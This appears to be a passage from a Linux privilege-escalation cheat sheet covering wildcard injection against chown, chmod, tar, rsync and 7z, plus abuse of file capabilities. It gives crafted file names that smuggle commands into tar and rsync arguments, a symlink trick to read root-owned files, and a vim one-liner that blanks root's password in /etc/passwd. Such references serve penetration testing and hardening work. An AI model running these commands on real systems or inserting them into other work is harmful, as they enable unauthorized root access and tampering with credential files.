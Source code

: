 ###### chown, chmod

You can **indicate which file owner and permissions you want to copy for the rest of the files**

```bash
touch "--reference=/my/own/path/filename"
```

###### Tar

```
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

###### Rsync

Execute arbitrary commands:

```
touch "-e sh shell.sh"
```

###### 7z

if a command like the following one is being executed by root:

```
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

And you can create files in the folder were this is being executed:

```
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

it will throw and error showing the content.

### Capabilities

```bash
getcap -r / 2>/dev/null
```

- Some capabilities give you direct access to root [Hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html?highlight=capabi#references):

  - `cap_setuid`

  - `cap_setgid`

  - `cap_sys_admin`

  - `cap_dac_override` allow to overwrite a file. E.g. for `vim`

    ```bash
    echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
    su
    ```

